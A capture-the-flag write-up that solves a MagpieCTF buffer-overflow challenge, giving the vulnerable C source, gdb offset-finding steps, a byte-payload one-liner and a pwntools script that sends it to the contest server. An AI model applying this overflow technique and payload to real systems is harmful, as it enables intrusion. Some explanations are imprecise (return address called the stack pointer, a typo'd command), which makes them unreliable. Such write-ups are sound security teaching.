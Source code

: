 # This outta be large enough right?

## Description

> Come in, B-Team,
>
> We've identified an OmniFlags service that seems to be running on a satelite somewhere. We were able to get a copy of the program, and we suspect that it may be exploitable for identifying a flag. See if you can find it.
>
> Over & out,\
> HQ\
>
>
> `nc srv1.2023.magpiectf.ca 6201`

## Too Small

We are given a `chall.c` source code file

```c
#include <stdio.h>
#include <stdlib.h>
__asm__(".symver realpath,realpath@GLIBC_2.0.5");
void win(){
    printf("Here is your flag:\n");
    exit(0);
}
void vuln(){
  char buf[56];
  gets(buf);
}
int main(){
  vuln();
  return 0;
}
```

Here we can see the program makes a call to `vuln()`, which creates a character buffer and takes in input to fill the buffer, then returns 0. It's clear that we want to call `win()` in order to get our flag, so how shall we do that?

The code implies a buffer overflow attack

{% hint style="info" %}
**Buffer Overflow** - Occurs when the volume of data exceeds the storage capacity of the memory buffer, which overruns the buffer's allocated memory and overwrites adjacent memory locations
{% endhint %}

In the code `chall.c` we can see a buffer of static size 56 allocated, called `buf`. User input is then placed inside this buffer with `gets(buf)`. However, what if the user input exceeds the size `buf` was allocated for? Then those values will be stored in the next slots of memory, after the locations that were allocated by `buf`, which may overwrite important information

One of these important pieces of information is the stack pointer, which points to the next instruction that the program should execute

Thus, our goal is

1. Overwrite the memory location the stack pointer is currently pointing to
2. Change it so it points at `win`
3. Profit.

First let's make the local executable `chall` executable by setting permissions

```
chmode +x chall
```

Then let's run it with gdb using `gdb chall`

First let's look into the functions of the file

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

We can see that the `win` function is located at 0x08048486. Let's put a pin in that for now, and run the program with `run`

Now, for the user input we want to overflow `buf`. It doesn't matter what dummy values we use, so let's send in "A"'s until we get a segmentation fault. Since we know the buffer has size 56, let's try 100 "A"s first, which we can send in using inline Python code

```
run <<< $(python3 -c 'print("A"*100)')
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We got a segmentation fault, as expected. However, what's notable is the `0x41414141 in ?? ()` response. This is telling us where the program is currently, when it received the segmentation fault, so the `0x41414141` is the stack pointer and `?? ()` is the function the program faulted at

If you have a good memory, you may recall none of the functions were even close to this location, and the function we ended at is unknown by the program

If you have a keen eye, you may notice that 0x41 is "A" in hexadecimal.

Putting these together, we can note that not only did we cause a segmentation fault, we also managed to overwrite the stack pointer with "AAAA"

Unfortunately, we want to overwrite the stack pointer with "08048486", the location of `win`, so let's try finding the precise number of "A"s to send such that we cause a segmentation fault, however we do not overwrite the stack pointer

To spare the painful details, this amounts to 68 "A"s

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption><p>So close to greatness</p></figcaption></figure>

If you wanted to, doing 69 or more "A"s will cause 41 to seep into the stack pointer from the right. The reason why it comes in from the right is because it is in little endian

{% hint style="info" %}
**Little Endian** - The least sygnificant byte of the data is placed at the byte with the lowest address
{% endhint %}

So instead of 08 03 84 86 we get 86 84 04 08

We are now ready to overwrite the stack pointer with our desired location. Note that the payload needs to be in bytes, so it looks something like this

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")'
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption><p>We win!</p></figcaption></figure>

"Here is your flag:" is printed out, implying we successfully called `win`

## Let Me In

I tried to directly pipe in my Python payload into the netcat command

```python
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*68 + b"\x86\x84\x04\x08")' | nc srv1.2023.magpiectf.ca 6201
```

Unfortunately, it didn't work as the program would just hang. I similarly tried to send the Python to a file `out` and pipe in `cat out | nc srv1.2023.magpiectf.ca 6201` which did not work either.

I had the correct payload, but I just couldn't send the payload in!

After a bout of frustration, I settled down and coded up a Python script to communicate with the server

```python
from pwn import *

address = 'srv1.2023.magpiectf.ca'
port = 6201
tcpsocket = remote(address, port)

payload = "A"*68 + "\x86\x84\x04\x08"

tcpsocket.sendline(payload.encode('latin-1'))
print('Sent: 0x' + binascii.hexlify(payload.encode('latin-1')).decode('latin-1'))

print((tcpsocket.recvline()).decode('latin-1')) # Receive line after string is entered
print((tcpsocket.recv()).decode('latin-1')) # Receive the flag
```

## Flag

`magpie{0mn1_fl4g_3v3rywh3r3}`
